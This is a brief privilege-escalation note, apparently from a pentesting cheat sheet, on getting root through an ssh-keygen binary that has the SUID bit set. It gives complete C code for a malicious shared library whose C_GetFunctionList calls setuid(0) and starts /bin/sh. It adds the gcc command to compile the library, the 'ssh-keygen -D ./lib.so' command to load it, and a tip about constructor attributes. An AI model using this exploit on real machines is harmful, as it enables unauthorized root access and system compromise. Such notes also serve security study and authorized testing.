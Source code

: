 # ssh-keygen
if ssh-keygen has suid bit set, we can load a custom library and get root access. ssh-keygen tries to "open" the \``` C_GetFunctionList` `` function which is our injection point. The code for the shared library is as follows:

```text-plain
int C_GetFunctionList(){
        setuid(0);
        system("/bin/sh");
}
int main() {}
```

compile the above C code into a shared library with : `gcc -shared -o lib.so lib.c` and run `ssh-keygen -D ./lib.so` to get root.

we can also inclue `__attribute__((constructor))` with a random function and it'll run whenever it's loaded.